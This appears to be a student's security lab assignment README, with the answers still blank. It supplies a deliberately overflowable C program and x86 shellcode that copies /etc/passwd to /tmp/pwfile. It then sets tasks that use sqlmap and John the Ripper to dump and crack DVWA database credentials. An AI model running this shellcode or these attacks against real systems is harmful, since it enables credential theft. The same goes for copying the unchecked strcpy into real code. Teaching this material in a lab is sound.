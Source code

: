 # Lab #1,22110015, Nguyen Manh Cuong, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)


``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:



